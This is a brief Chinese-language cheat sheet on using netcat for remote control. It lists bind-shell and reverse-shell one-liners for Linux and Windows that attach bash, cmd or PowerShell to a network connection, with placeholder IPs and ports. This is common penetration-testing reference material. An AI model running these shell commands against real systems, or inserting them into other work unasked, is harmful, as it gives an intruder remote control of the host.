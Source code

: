 远程控制工具。

## 1. 正向连接

侦听端口，并在连接后开启终端

```
[root@centos7-6 ~]# nc -lnvp [port] -c bash
```

```
[root@centos7-6 ~]# nc -lnvp [port] -e /usr/bin/bash
```

```powershell
PS C:\Users\Administrator> C:\path\nc.exe -lvnp [port] -e cmd
```

```powershell
PS C:\Users\Administrator> C:\path\nc.exe -lvnp [port] -e powershell
```

连接目标端口

```
┌──(root㉿kali-23)-[~]
└─# nc -nv [ip] [port]
```

```
┌──(root㉿kali-23)-[~]
└─# nc [host] [port]
```

```
PS C:\Users\Administrator> C:\path\nc.exe -nv [ip] [port]
```

```
PS C:\Users\Administrator> C:\path\nc.exe [host] [port]
```

## 2. 反向链接

侦听端口

```
┌──(root㉿kali)-[~]
└─# nc -lnvp [port]
```

```
PS C:\Users\Administrator> C:\path\nc.exe -lvnp [port]
```

连接目标端口，并在连接后开启终端

```
[root@centos7-6 ~]# nc -nv [ip] [port] -c bash
```

```
[root@centos7-6 ~]# nc [host] [port] -e /usr/bin/bash
```

```
PS C:\Users\Administrator> C:\path\nc.exe [host] [port] -e cmd
```

```
PS C:\Users\Administrator> C:\path\nc.exe [host] [port] -e powershell
```

---

References

- [netcat](https://www.kali.org/tools/netcat/)